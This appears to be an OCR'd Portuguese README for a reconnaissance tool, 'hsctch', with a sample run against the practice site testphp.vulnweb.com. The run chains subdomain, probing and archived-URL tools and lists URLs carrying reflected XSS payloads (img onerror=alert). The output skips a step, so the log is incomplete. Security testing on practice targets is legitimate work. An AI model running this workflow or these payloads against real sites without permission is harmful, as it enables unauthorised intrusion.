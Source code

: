 # hsctch

#Acessar a pasta onde baixou o arquivo

#Executa o comando abaixo:

#python3 /root/reconx-hsctch.py 

#Digite o domínio alvo (exemplo: dominio.com.br): 

testphp.vulnweb.com



_    _  _____  _____ _______ _____ _    _
| |  | |/ ____|/ ____|__   __/ ____| |  | |
| |__| | (___ | |       | | | |    | |__| |
|  __  |\___ \| |       | | | |    |  __  |
| |  | |____) | |____   | | | |____| |  | |
|_|  |_|_____/ \_____|  |_|  \_____|_|  |_|

                                           

Executando: Executando assetfinder
Comando: assetfinder -subs-only testphp.vulnweb.com | anew subdomains.txt
Saída: 
Executando assetfinder concluído com sucesso.

Executando: Executando httprobe
Comando: cat subdomains.txt | httprobe | tee -a host.txt
Saída: http://testphp.vulnweb.com

Executando httprobe concluído com sucesso.
Executando: Executando waybackurls
Comando: cat host.txt | waybackurls | tee -a endpoint.txt

Executando freq para encontrar possíveis XSS concluído com sucesso.
Executando: Buscando por XSS FOUND
Comando: grep 'XSS FOUND' possible_xss.txt > resultado.txt
Saída:
Buscando por XSS FOUND concluído com sucesso.
Busca concluída.

#ls

endpoint.txt  host.txt  possible_xss.txt  resultado.txt  subdomains.txt  xss_fuzz.txt

#cat resultado.txt

XSS FOUND: http://testphp.vulnweb.com/showimage.php?file=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22
 XSS FOUND: http://testphp.vulnweb.com:80/hpp/index.php?pp=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22
 XSS FOUND: http://testphp.vulnweb.com/hpp/params.php?aaaa%2F=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22&p=%22>
 XSS FOUND: http://testphp.vulnweb.com/hpp/params.php?p=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22
 XSS FOUND: http://testphp.vulnweb.com/hpp/params.php?aaaa%2F=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22&p=%22>
